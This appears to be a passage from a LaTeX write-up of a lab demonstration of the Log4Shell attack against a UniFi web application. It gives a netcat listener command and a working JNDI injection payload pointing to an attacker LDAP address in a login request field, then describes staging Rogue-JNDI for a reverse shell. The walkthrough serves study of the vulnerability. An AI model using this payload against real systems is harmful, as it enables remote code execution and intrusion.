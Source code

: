 Then, we access the \texttt{https://example-domain.ui.com:8443} domain and get the login page from Fig. \ref{fig:log4j_unifi_initial_dashboard} (p. \pageref{fig:log4j_unifi_initial_dashboard}).

\begin{figure}[H]
    \includegraphics[width=12cm]{figures/unifi_initial_dashboard.png}
    \caption{UniFi's Initial Dashboard.}
    \label{fig:log4j_unifi_initial_dashboard}
\end{figure}

As mentioned earlier, we need to target a field we know will be logged by Apache Log4j using a malicious JNDI query. In our case, it is the \texttt{remember} field of the POST request.

Then, we can test if the web application is vulnerable to the Log4j attack. First, we listen for connections on port 9999 using \textit{netcat} with: \texttt{nc -lnvp 9999}. From the POST request issued when submitting the login form, we only need to change the \texttt{remember} field to \texttt{\$\{jndi:ldap://172.152.0.2:9999/whatever\}} and issue the modified POST request. Notice \texttt{172.152.0.2} is the attacker machine's IP address.

As we get a connection to port 9999 from the vulnerable Log4j container, the web application is indeed susceptible to the exploit. The next step is to use the Rogue-JNDI GitHub tool\footnote{\url{https://github.com/veracode-research/rogue-jndi}} to obtain a reverse shell on the target. Essentially, this tool sets up a malicious LDAP and HTTP server for JNDI injection attacks. When the tool first receives a connection from the vulnerable client to connect to the local LDAP server, it responds with a malicious entry containing a payload that will be useful to achieve a Remote Code Execution. The steps to build upon this foundation are to stage an LDAP Referral Server that will redirect the initial client request of the victim to an HTTP server where a secondary payload is hosted that will eventually run code on the target. 


